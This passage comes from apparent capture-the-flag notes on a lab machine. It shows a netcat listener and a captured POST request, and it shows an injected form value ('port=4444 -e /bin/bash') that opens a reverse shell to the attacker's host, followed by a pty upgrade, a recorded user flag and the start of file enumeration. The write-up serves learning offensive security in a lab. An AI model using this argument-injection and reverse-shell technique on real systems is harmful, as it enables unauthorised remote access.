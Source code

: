 ```
┌──(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.129.234.87] 54210
```
- Then proxies it and request to repeater
```
POST /index.php?expertmode=tcp HTTP/1.1
Host: 10.129.234.87
Content-Length: 22
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.129.234.87
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.234.87/index.php?expertmode=tcp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

ip=10.10.14.4&port=4444
```
- Tries: `ip=10.10.14.4&port=4444+-e+/bin/bash`
- Sees it hit the netcat listener, then (without escaping the netcat session) `python3 -c 'import pty;pty.spawn("/bin/bash")'` to get a shell:
```
┌──(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# nc -lvnp 4444                                                                                                                                            
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.129.234.87] 50172
python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                                               
www-data@down:/var/www/html$ ls
ls
index.php  logo.png  style.css  user_aeT1xa.txt
www-data@down:/var/www/html$ ls -la
ls -la
total 332
drwxr-xr-x 2 root root   4096 Apr  8 23:09 .
drwxr-xr-x 3 root root   4096 Sep  6  2024 ..
-rw-r--r-- 1 root root   3041 Sep  6  2024 index.php
-rw-r--r-- 1 root root 316218 Sep  6  2024 logo.png
-rw-r--r-- 1 root root   1794 Sep  6  2024 style.css
-r--r--rw- 1 root root     33 Apr  8 23:09 user_aeT1xa.txt
www-data@down:/var/www/html$ 
```
- User flag found in `user_aeT1xa.txt`:`d4bc94b386ef7c8113698a8c4951cacd`
- All directories owned by root so we couldn't just drop a shell.php earlier (`--rw` means read/write?)
- Now we need to get root, start looking for DBs but none here
- Runs `find . -type f` which **finds all files in the current directory and all subdirectories recursively**
	- find = search for files/directories
	- . = start from current directory
	- -type f = only show files (not directories)
- Nothing of interest
- Goes back to `cd /home` to do the same, `find . -type f`:
```
www-data@down:/var/www/html$ cd /home
cd /home
```